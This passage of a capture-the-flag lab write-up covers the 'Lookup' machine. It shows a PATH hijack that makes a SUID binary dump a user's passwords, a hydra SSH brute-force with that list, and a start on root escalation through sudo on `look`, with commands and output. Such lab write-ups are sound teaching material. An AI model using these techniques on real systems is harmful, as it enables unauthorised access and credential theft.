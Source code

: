 Now, when we run the `pwm` binary, it will execute *our* `id` script instead of the real one. It will be tricked into thinking we are the user `think` and will hopefully leak `think`'s passwords.

```bash
www-data@ip-10-10-219-52:/tmp$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
...
jose.2856171
```

It worked! The binary dumped a list of passwords. I saved them to a file and used `hydra` to brute-force the SSH login for the user `think`.

```bash
❯ hydra -l think -P passwords.txt ssh://lookup.thm
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-27 19:49:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://lookup.thm:22/
[22][ssh] host: lookup.thm   login: think   password: *************
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-27 19:49:34
```

With the password found, I can SSH in as `think` and grab the user flag.

```bash
think@ip-10-10-219-52:~$ cat user.txt
**********************************
```

## Privilege Escalation: Part 2 (think -> root)

One flag down, one to go. Let's see what `sudo` privileges we have.

```bash
think@ip-10-10-219-52:~$ sudo -l
[sudo] password for think:
Matching Defaults entries for think on ip-10-10-219-52:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-10-219-52:
    (ALL) /usr/bin/look
```

Interesting. We can run the `/usr/bin/look` command as any user, including root. A quick `man look` shows it's used to find lines in a sorted file. It also uses `/usr/share/dict/words` as a default dictionary. Let's see what happens when we point it at the root flag.
